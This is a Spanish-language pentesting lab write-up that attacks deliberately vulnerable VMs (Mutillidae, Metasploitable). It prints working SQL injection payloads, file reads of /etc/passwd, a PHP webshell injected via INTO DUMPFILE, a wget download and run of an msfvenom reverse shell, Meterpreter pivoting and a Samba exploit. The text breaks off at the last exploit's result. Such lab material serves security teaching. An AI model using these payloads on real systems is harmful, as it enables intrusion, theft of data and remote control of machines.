# Metodología de Pentesting - Guía Completa Paso a Paso

[](METODOLOGIA.md)
[](METODOLOGIA.es.md)

---

## 📋 Índice

1. [Configuración del Laboratorio](#1-configuración-del-laboratorio)
2. [Fase 1: Reconocimiento](#2-fase-1-reconocimiento)
3. [Fase 2: Explotación Web](#3-fase-2-explotación-web)
4. [Fase 3: Post-Explotación](#4-fase-3-post-explotación)
5. [Fase 4: Pivoting](#5-fase-4-pivoting)
6. [Fase 5: Explotación Red Interna](#6-fase-5-explotación-red-interna)
7. [Fase 6: Post-Explotación Avanzada](#7-fase-6-post-explotación-avanzada)

---

## 1. Configuración del Laboratorio

### 1.1 Arquitectura de Red
```
┌─────────────────┐
│   Kali Linux    │ 192.168.0.30
│   (Atacante)    │
└────────┬────────┘
         │ Red Bridge
         │
┌────────▼────────────────┐
│ Ubuntu Mutillidae       │
│ ens33: 192.168.0.21     │ ← Red Externa (DMZ)
│ ens37: 192.168.8.131    │ ← Red Interna
└────────┬────────────────┘
         │ Red Host-Only
         │
┌────────▼────────────────┐
│  Metasploitable         │
│  eth0: 192.168.8.133    │
└─────────────────────────┘
```

### 1.2 Especificaciones Técnicas

| Máquina | Interfaz | Red | IP | Gateway |
|---------|----------|-----|----|---------|
| **Kali Linux** | eth0 | Bridge | 192.168.0.30 | 192.168.0.1 |
| **Ubuntu Mutillidae** | ens33 | Bridge | 192.168.0.21 | 192.168.0.1 |
|  | ens37 | Host-Only | 192.168.8.131 | - |
| **Metasploitable** | eth0 | Host-Only | 192.168.8.133 | - |

### 1.3 Configuración de VMware

#### Kali Linux:
```
1. VM → Settings → Network Adapter
2. Adapter 1: Bridged (Automatic)
```

#### Ubuntu Mutillidae:
```
1. VM → Settings → Network Adapter
2. Adapter 1: Bridged (Automatic)

3. VM → Settings → Add → Network Adapter
4. Adapter 2: Custom (VMnet1 - Host-only)
```

#### Metasploitable:
```
1. VM → Settings → Network Adapter
2. Adapter 1: Custom (VMnet1 - Host-only)
```

### 1.4 Verificación de Conectividad

**Desde Kali:**
```bash
# Verificar IP propia
ip addr show eth0
# Resultado esperado: 192.168.0.30

# Verificar conectividad a Mutillidae (DMZ)
ping -c 4 192.168.0.21
# ✅ Debe funcionar

# Intentar alcanzar Metasploitable (red interna)
ping -c 4 192.168.8.133
# ❌ NO debe funcionar (sin pivoting)
```

**Desde Ubuntu Mutillidae:**
```bash
# Verificar interfaces
ip addr show

# Resultado esperado:
# ens33: 192.168.0.21/24
# ens37: 192.168.8.131/24

# Verificar conectividad a Kali
ping -c 4 192.168.0.30
# ✅ Debe funcionar

# Verificar conectividad a Metasploitable
ping -c 4 192.168.8.133
# ✅ Debe funcionar
```

---

## 2. Fase 1: Reconocimiento

### 2.1 Configuración de Burp Suite

#### En Kali:
```bash
# Iniciar Burp Suite
burpsuite &
```

#### Configuración del Proxy:
```
1. Burp Suite → Proxy → Options
2. Proxy Listeners:
   - Running: ✅
   - Interface: 127.0.0.1:8080
3. Intercept Server Responses: ✅
```

#### Configurar Firefox:
```
1. Firefox → Preferencias → General
2. Configuración de red → Configuración
3. Configuración manual del proxy:
   - Proxy HTTP: 127.0.0.1
   - Puerto: 8080
   - Usar también para HTTPS
4. Aceptar
```

### 2.2 Navegación Manual con Burp Suite
```bash
# En Firefox (con proxy configurado):
http://192.168.0.21/mutillidae
```

**Acciones realizadas:**
1. Navegar por el menú principal
2. Visitar páginas de OWASP 2017:
   - A1 - Injection → User Info (SQL)
   - A1 - Injection → Login
   - A7 - XSS → Reflected
   - Others → File Upload
3. Probar formularios de login
4. Explorar diferentes secciones

**Resultado en Burp Suite:**
```
Burp Suite → Target → Site map

http://192.168.0.21
└── mutillidae/
    ├── index.php
    ├── login.php
    ├── user-info.php
    ├── includes/
    │   ├── header.php
    │   ├── database-config.php
    │   └── ...
    ├── javascript/
    ├── images/
    └── styles/
```


---

### 2.3 Escaneo Automatizado con Skipfish
```bash
# Desde Kali:
skipfish -YO -o ~/Desktop/skipfish_resultados http://192.168.0.21/mutillidae/index.php
```

**Parámetros:**
- `-Y`: Omitir confirmaciones
- `-O`: Omitir página de inicio
- `-o`: Directorio de salida

**Resultado:**
```
[+] Scan statistics:
    Duration: 15m 23s
    HTTP requests: 8234
    Nodes in database: 847
    Directories: 124
    Files: 723
    
[+] Security findings:
    High risk: 12
    Medium risk: 34
    Low risk: 89
```

**Ver resultados:**
```bash
firefox ~/Desktop/skipfish_resultados/index.html
```



---

## 3. Fase 2: Explotación Web

### 3.1 Ataque de Fuerza Bruta con Burp Suite

#### Paso 1: Capturar petición de login
```bash
# En Burp Suite:
Proxy → Intercept is ON

# En Firefox:
http://192.168.0.21/mutillidae/index.php?page=login.php

# Introducir credenciales de prueba:
Username: usuario123
Password: pass123
Click en "Login"
```

**Petición capturada en Burp:**
```http
POST /mutillidae/index.php?page=login.php HTTP/1.1
Host: 192.168.0.21
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

username=usuario123&password=pass123&login-php-submit-button=Login
```




---

#### Paso 2: Modificar petición (SQL Injection)

**Petición original:**
```
username=usuario123&password=pass123&login-php-submit-button=Login
```

**Petición modificada:**
```
username=admin' OR '1'='1&password=cualquiercosa&login-php-submit-button=Login
```

**En Burp Suite:**
```
1. Modificar el parámetro username
2. Click en "Forward"
3. Intercept is OFF
```

**Resultado en Firefox:**
```
✅ Logged In Admin: admin (g0t r00t?)
```



---

#### Paso 3: Fuerza Bruta con Burp Intruder

**Configurar ataque:**
```
1. Burp Suite → Proxy → HTTP history
2. Buscar petición POST a login.php
3. Click derecho → Send to Intruder
4. Intruder → Positions
5. Click en "Clear §" (limpiar marcadores)
6. Seleccionar manualmente:

username=§usuario123§&password=§pass123§&login-php-submit-button=Login

7. Attack type: Cluster bomb
```

**Configurar payloads:**
```
Intruder → Payloads

Payload set 1 (username):
- admin
- john
- jeremy
- bryce
- estefania (cuenta creada para prueba)
- root
- test

Payload set 2 (password):
- admin
- password
- 123456
- monkey
- estefania123 (password de cuenta de prueba)
- letmein
- test
```

**Iniciar ataque:**
```
Click en "Start attack"
```

**Resultados:**
```
Request | Payload 1   | Payload 2    | Status | Length
--------|-------------|--------------|--------|-------
45      | estefania   | estefania123 | 302    | 459  ← Exitoso
12      | admin       | admin        | 200    | 59645  ← Fallido
23      | john        | monkey       | 200    | 59645  ← Fallido
...otros intentos...  | 200    | 59645  ← Fallidos
```

**Identificar login exitoso:**
- Status code: **302** (redirección)
- Length: **Diferente** al resto (459 vs 59645)



---

### 3.2 SQL Injection - Extracción de Datos

#### Navegación a la página vulnerable:
```
Firefox → http://192.168.0.21/mutillidae
OWASP 2017 → A1 - Injection (SQL) → SQLi - Extract Data → User Info (SQL)
```

#### 3.2.1 Obtener todos los usuarios

**Payload:**
```sql
' OR 1=1-- 
```

**Campo:** Name
**Resultado:** 26 usuarios con contraseñas en texto plano
```
Username    Password    Signature
admin       admin       g0t r00t?
john        monkey      I like the smell of confunk
jeremy      password    d1373 1337 speak
bryce       password    I Love SANS
ed          pentest     Hehehe
samurai     samurai     Carving fools
jim         password    Rome did not create a great empire by having meetings...
pablo       letmein     
dave        password    
adrian      somepassword
... [16 usuarios más]
```



---

#### 3.2.2 Bypass de Autenticación

**Navegación:**
```
OWASP 2017 → A1 - Injection (SQL) → SQLi - Bypass Authentication → Login
```

**Payload:**
```sql
' OR 1=1-- 
```

**Campo:** Name. Aquí introducimos nuestro payload SQL ' OR 1=1--  
**Password:** (cualquier cosa o vacío)

**Resultado:**
```
✅ Logged In Admin: admin
```

---

#### 3.2.3 Determinar número de columnas

**Payloads probados:**
```sql
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
' ORDER BY 4-- 
' ORDER BY 5-- 
' ORDER BY 6-- 
' ORDER BY 7--  ✅ Funciona
' ORDER BY 8--  ❌ Error: Unknown column '8'
```

**Conclusión:** La tabla tiene **7 columnas**

---

#### 3.2.4 Obtener nombre de la base de datos

**Payload:**
```sql
' UNION SELECT null,database(),null,null,null,null,null-- 
```

**Resultado:**
```
mutillidae
```

---

#### 3.2.5 Obtener versión de MySQL

**Payload:**
```sql
' UNION SELECT null,version(),null,null,null,null,null-- 
```

**Resultado:**
```
5.7.33-0ubuntu0.20.04.1
```

---

#### 3.2.6 Listar todas las tablas

**Payload:**
```sql
' UNION SELECT null,table_name,null,null,null,null,null FROM information_schema.tables WHERE table_schema='mutillidae'-- 
```

**Resultado (12 tablas):**
```
accounts
blogs_table
captured_data
credit_cards
hitlog
page_help
page_hints
pen_test_tools
user_poll_results
...
```


---

#### 3.2.7 Extraer datos de tabla sensible (credit_cards)

**Payload:**
```sql
' UNION SELECT null,ccnumber,ccv,expiration,null,null,null FROM credit_cards-- 
```

**Resultado:**
```
Credit Card Number  | CVV  | Expiration
4444111122223333   | 745  | 2012-03-01
7746536337776330   | 722  | 2015-04-01
8242325748474749   | 461  | 2016-03-01
... [más tarjetas]
```

**📸 Screenshot:** `08-sqli-credit-cards.png`

---

#### 3.2.8 Lectura de archivos del sistema

**Verificar configuración de MySQL:**
```bash
# Desde Ubuntu Mutillidae:
sudo mysql -u root -p

mysql> SHOW VARIABLES LIKE 'secure_file_priv';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |  ← Vacío = sin restricción
+------------------+-------+
```

**Si está restringido, deshabilitar:**
```bash
sudo nano /etc/mysql/mysql.conf.d/mysqld.cnf

# Añadir o modificar:
[mysqld]
secure_file_priv = ""

# Reiniciar MySQL:
sudo systemctl restart mysql
```

**Payload para lectura de archivo:**
```sql
' UNION SELECT null,LOAD_FILE('/etc/passwd'),null,null,null,null,null-- 
```

**Resultado:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:129:137:MySQL Server,,,:/nonexistent:/bin/false
estefania:x:1000:1000:estefania,,,:/home/estefania:/bin/bash
... [contenido completo]
```




---

### 3.3 Path Traversal

**URL vulnerable:**
```
http://192.168.0.21/mutillidae/index.php?page=user-info.php
```

**Payload:**
```
http://192.168.0.21/mutillidae/index.php?page=../../../../../etc/passwd
```

**Resultado:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
... [contenido completo de /etc/passwd]
```


---

### 3.4 Remote Code Execution - Webshell Upload

#### Paso 1: Verificar permisos de escritura
```bash
# Desde Ubuntu Mutillidae:
sudo chmod 777 /var/www/html/mutillidae/

# Verificar:
ls -ld /var/www/html/mutillidae/
# Resultado: drwxrwxrwx
```

#### Paso 2: Crear código de webshell

**Webshell completa (con formulario):**
```php
<form action="" method="post" enctype="application/x-www-form-urlencoded">
<table style="margin-left:auto; margin-right:auto;">
<tr><td colspan="2">Please enter system command</td></tr>
<tr><td></td></tr>
<tr><td class="label">Command</td>
<td><input type="text" name="pCommand" size="50"></td></tr>
<tr><td></td></tr>
<tr><td colspan="2" style="text-align:center;">
<input type="submit" value="Execute Command" /></td></tr>
</table>
</form>
<?php 
echo "<pre>";
echo shell_exec($_REQUEST["pCommand"]);
echo "</pre>"; 
?>
```

#### Paso 3: Inyectar webshell mediante SQL

**Payload (TODO EN UNA LÍNEA):**
```sql
' UNION SELECT null,null,null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/backdoor.php'-- 
```

**Ejecutar en:**
```
Firefox → OWASP 2017 → A1 - Injection (SQL) → SQLi - Extract Data → User Info (SQL)
Campo "Name": [pegar payload]
Click en "View Account Details"
```

#### Paso 4: Verificar creación de webshell
```bash
# Desde Ubuntu Mutillidae:
ls -la /var/www/html/mutillidae/ | grep backdoor

# Resultado:
-rw-rw-rw- 1 mysql mysql 512 ene 10 14:23 backdoor.php
```

**✅ Webshell creada exitosamente**

---

#### Paso 5: Acceder a la webshell (Path Traversal)

**URL:**
```
http://192.168.0.21/mutillidae/index.php?page=backdoor.php
```

**Interfaz de la webshell:**
```
┌─────────────────────────────────┐
│ Please enter system command     │
│                                 │
│ Command: [___________________]  │
│                                 │
│      [Execute Command]          │
└─────────────────────────────────┘
```


---

#### Paso 6: Ejecutar comandos

**Comando 1: Verificar usuario**
```
Command: whoami
Resultado: www-data
```


**Comando 2: Listar archivos**
```
Command: ls -la
Resultado:
drwxrwxrwx 10 www-data www-data  4096 ene 10 14:23 .
drwxr-xr-x  3 root     root      4096 sep 29  2023 ..
-rw-r--r--  1 www-data www-data  8234 sep 29  2023 index.php
-rw-rw-rw--  1 mysql    mysql      512 ene 10 14:23 backdoor.php
... [más archivos]



```

**Comando 3: Leer /etc/passwd**
```
Command: cat /etc/passwd
Resultado: [contenido completo del archivo]
```



---

## 4. Fase 3: Post-Explotación

### 4.1 Descubrimiento de Red Interna

**Comando:**
```
Command: ip addr show
```

**Resultado:**
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536
    inet 127.0.0.1/8 scope host lo

2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500
    inet 192.168.0.21/24 brd 192.168.0.255 scope global ens33

3: ens37: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500
    inet 192.168.8.131/24 brd 192.168.8.255 scope global ens37
```

**⚠️ Hallazgo crítico:**
- **ens33:** 192.168.0.21 → Red externa (conocida)
- **ens37:** 192.168.8.131 → **RED INTERNA descubierta!**



---

### 4.2 Escaneo de Red Interna

**Comando:**
```
Command: ping -c 1 192.168.8.133
```

**Resultado:**
```
PING 192.168.8.133 (192.168.8.133) 56(84) bytes of data.
64 bytes from 192.168.8.133: icmp_seq=1 ttl=64 time=0.387 ms

--- 192.168.8.133 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss
```

**✅ Host 192.168.8.133 activo (Metasploitable)**


---

## 5. Fase 4: Pivoting

### 5.1 Generación de Payload Meterpreter
```bash
# Desde Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=4444 -f elf > shell.elf

# Resultado:
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
```

**Verificar creación:**
```bash
ls -lh shell.elf
# -rw-r--r-- 1 kali kali 207 ene 9 13:15 shell.elf
```

---

### 5.2 Transferir Payload a Ubuntu

#### Paso 1: Levantar servidor HTTP en Kali
```bash
# En el directorio donde está shell.elf:
python3 -m http.server 8000

# Resultado:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Paso 2: Descargar desde webshell

**Comando en webshell:**
```
wget http://192.168.0.30:8000/shell.elf -O /tmp/shell.elf
```

**Resultado:**
```
--2026-01-09 13:20:15--  http://192.168.0.30:8000/shell.elf
Connecting to 192.168.0.30:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: '/tmp/shell.elf'

/tmp/shell.elf      100%[===================>]     207  --.-KB/s    in 0s

2026-01-09 13:20:15 (42.3 MB/s) - '/tmp/shell.elf' saved [207/207]
```

**En el servidor HTTP de Kali verás:**
```
192.168.0.21 - - [09/Jan/2026 13:20:15] "GET /shell.elf HTTP/1.1" 200 -
```

#### Paso 3: Dar permisos de ejecución

**Comando en webshell:**
```
chmod +x /tmp/shell.elf
```

**Verificar:**
```
Command: ls -la /tmp/shell.elf
Resultado: -rwxr-xr-x 1 www-data www-data 207 ene 9 13:20 /tmp/shell.elf
```

**✅ Payload listo para ejecutar**

---

### 5.3 Configurar Listener en Kali
```bash
# Nueva terminal en Kali:
msfconsole
```

**Dentro de msfconsole:**
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.30
set LPORT 4444
exploit
```

**Resultado:**
```
[*] Started reverse TCP handler on 192.168.0.30:4444
```

**⏳ Esperando conexión...**

---

### 5.4 Ejecutar Payload desde Ubuntu

**Comando en webshell:**
```
/tmp/shell.elf
```

**En Kali (msfconsole) verás:**
```
[*] Sending stage (1017704 bytes) to 192.168.0.21
[*] Meterpreter session 1 opened (192.168.0.30:4444 -> 192.168.0.21:36722) at 2026-01-09 13:24:18 -0500

meterpreter >
```

**✅ Sesión Meterpreter establecida!**



---

### 5.5 Verificar Sesión Meterpreter
```
meterpreter > sysinfo
```

**Resultado:**
```
Computer     : estefaniaubuntu
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
```
meterpreter > ifconfig
```

**Resultado:**
```
Interface  1
============
Name         : lo
IPv4 Address : 127.0.0.1

Interface  2
============
Name         : ens33
IPv4 Address : 192.168.0.21

Interface  3
============
Name         : ens37
IPv4 Address : 192.168.8.131  ← Red interna
```

---

### 5.6 Configurar Autoroute (Pivoting)
```
meterpreter > run autoroute -s 192.168.8.0/24
```

**Resultado:**
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.8.0/255.255.255.0...
[+] Added route to 192.168.8.0/255.255.255.0 via 192.168.0.21
[*] Use the -p option to list all active routes
```

**Verificar rutas:**
```
meterpreter > run autoroute -p
```

**Resultado:**
```
Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.8.0        255.255.255.0      Session 1
```

**✅ Túnel de pivoting configurado correctamente**



---

### 5.7 Escanear Red Interna a través del Pivoting
```
meterpreter > background
```

**Ahora en msfconsole:**
```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.8.133
set PORTS 21,22,23,25,80,139,445,3306,5432,8180
set THREADS 10
run
```

**Resultado:**
```
[+] 192.168.8.133:        - 192.168.8.133:3306 - TCP OPEN
[+] 192.168.8.133:        - 192.168.8.133:5432 - TCP OPEN
[+] 192.168.8.133:        - 192.168.8.133:8180 - TCP OPEN
[*] 192.168.8.133:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Escaneo más completo:**
```
set PORTS 1-10000
set THREADS 20
run
```

**Resultado (puertos abiertos encontrados):**
```
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
```


---

## 6. Fase 5: Explotación Red Interna

### 6.1 Identificar Vulnerabilidad en Samba
```
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.8.133
run
```

**Resultado:**
```
[*] 192.168.8.133:139     - Host could not be identified: Unix (Samba 3.0.20-Debian)
```
Buscar exploit:**
searchsploit samba 3.0.20
```

**Resultado:**
```
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script Command Execution (Metasploit)
```

---

### 6.2 Configurar Exploit
```
use exploit/multi/samba/usermap_script
show options
```

**Configuración:**
```
set RHOSTS 192.168.8.133
set PAYLOAD cmd/unix/bind_perl
show options
```

**Verificar configuración:**
```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.8.133    yes       Target address
   RPORT   139              yes       Target port

Payload options (cmd/unix/bind_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       Listener port
   RHOST  192.168.8.133    yes       Target address
```

---

### 6.3 Ejecutar Exploit
```
exploit
```

**Resultado:**
```
